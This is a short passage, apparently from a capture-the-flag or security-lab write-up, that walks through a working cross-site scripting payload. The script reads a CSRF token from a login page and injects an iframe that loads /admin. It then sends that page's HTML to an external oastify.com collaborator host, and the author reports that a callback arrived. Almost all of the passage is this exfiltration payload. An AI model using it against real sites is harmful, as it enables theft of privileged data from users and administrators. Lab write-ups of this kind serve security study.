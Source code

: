 ![picture 10](/assets/images/6811aa54aa97f4aed9c6a4fa2bae215d3c80a1df8bbb5b14275a3bcc685b4503.png)  

Next payload should leak the admin page.

```html
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r=>r.text().then(text=>
	{
		xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
	}
	))
}

fetchUrl("http://192.168.0.145:8080", "http://2rug346g8gx4v5tqs9ek7ugzkqqhea2z.oastify.com");
</script>
```

We get a callback
